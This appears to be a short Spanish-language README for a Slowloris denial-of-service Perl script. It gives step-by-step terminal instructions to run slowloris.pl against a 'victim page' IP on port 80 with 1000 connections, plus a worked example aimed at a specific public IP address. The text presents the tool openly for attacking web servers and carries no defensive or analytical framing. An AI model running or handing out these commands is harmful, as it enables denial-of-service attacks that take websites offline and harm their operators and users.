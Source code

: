 # Slowloris
 Instrucciones para la ejecucion del archivo 
 1.- Dirigete a la ubicacion en donde se encuentra el archivo 
 2.- Abre la terminal y ejecutalo de la siguiente manera: 
 perl slowloris.pl -dns IpPaginaVictima -port 80 -timeout 1 -num 1000 -cache
 
 Abajo se muestra un ejemplo de como se ejecuta con una direccion Ip
 perl slowloris.pl -dns 189.202.242.102 -port 80 -timeout 1 -num 1000 -cache
